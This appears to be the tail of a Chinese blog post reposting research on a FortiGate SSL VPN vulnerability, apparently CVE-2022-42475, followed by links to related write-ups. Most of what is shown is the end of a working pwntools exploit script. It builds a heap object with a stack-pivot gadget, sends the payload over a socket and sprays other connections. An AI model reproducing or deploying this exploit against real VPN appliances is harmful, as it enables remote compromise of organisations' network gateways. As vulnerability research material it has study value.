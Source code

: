```
victim_obj += pwn.p64(stack_povit)
payload += victim_obj

exp_sk.sendall(payload)

for sk in socks:
    if sk:
        data = b"b" * 40
        sk.sendall(data)

print("done")
```

‍

‍

### 相关参考资料
1. [fortigate | f01965](https://f01965.com/2021/02/18/fortigate/)1. [fortigate Vulnerability | f01965](https://f01965.com/2021/02/25/fortigate-Vulnerability/)1. [CVE-2022-42475 | CataLpa's Site](https://wzt.ac.cn/2022/12/15/CVE-2022-42475/)1. [Attacking SSL VPN - Part 2: Breaking the Fortigate SSL VPN | DEVCORE](https://devco.re/blog/2019/08/09/attacking-ssl-vpn-part-2-breaking-the-Fortigate-ssl-vpn/)
本文纯属于转载，若有冒犯可删除
